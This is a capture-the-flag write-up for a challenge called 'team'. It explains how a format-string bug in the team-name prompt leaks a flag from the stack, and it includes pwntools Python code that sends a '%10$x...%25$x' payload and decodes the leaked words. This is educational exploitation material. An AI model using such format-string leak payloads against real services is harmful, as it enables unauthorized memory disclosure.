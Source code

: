 # team 600pts 

##Overview
To start, disassembling the program reveals a format string
vulnerability when it prints the team name.
After much trial and error and not doing anything right at all,
I noticed that using many %x.%x.%x.%x.....%x would essentially 
dump the stack for you. Because I had a poor flag locally,
(a flag.txt file is needed in the same directory to do this chal)
that wasn't extrememly noticable, it took me a long time to realize
the flag was being dumped to the terminal. It was just in little/big 
endian (don't remember which is which) and hex. So copy the values 
from the output, reverse each byte, convert to ascii and you've got 
the flag. 

By observing where your flag was located in the outputted data, you 
could the flag began 10 words from the begginning of the dump. 
Therefore, using %10$x would cause the 10th value on the stack to be 
printed. We now can hardcode exactly where the flag will be. The flag 
is printed in hex, there are 256 bits in the flag (i.e. 32 bytes or 64 
hex characters) so we will need to use 16 %x's. 

##Code
We construct a teamname that will display the 16 words off the stack
that contain the flag. We send this as the teamname and can then 
send anything as the flag.
```python
teamname = "%10$x.%11$x.%12$x.%13$x.%14$x.%15$x.%16$x.%17$x.%18$x.%19$x.%20$x.%21$x.%22$x.%23$x.%24$x.%25$x"

flag = "Doesn't matter"

r.recvuntil("Enter teamname:")

print "[*] Sending teamname"
r.send(teamname + "\n")

r.recvuntil("Enter flag:")
print "[*] Sending flag"
r.send(flag + "\n")
```
We then receive the data containing the flag and 
strip away the unnecessary parts.
```python
f = flag.replace(" ", "").replace(":", "").split(".")
```
The values are backwards on the stack due to
endianness. We can use pwntools' p32() here 
to get the flag values. 
We could optionally 
hex decode the string and then invert it like
so: ```python flag += str(i.decode("hex")[::-1])```
but I like pwntools so we'll use that.
```python
flag = ""
for i in f:
	flag += str(p32(int(i, 16)))

print "[*] Flag: " + flag
# RyanAiden
```
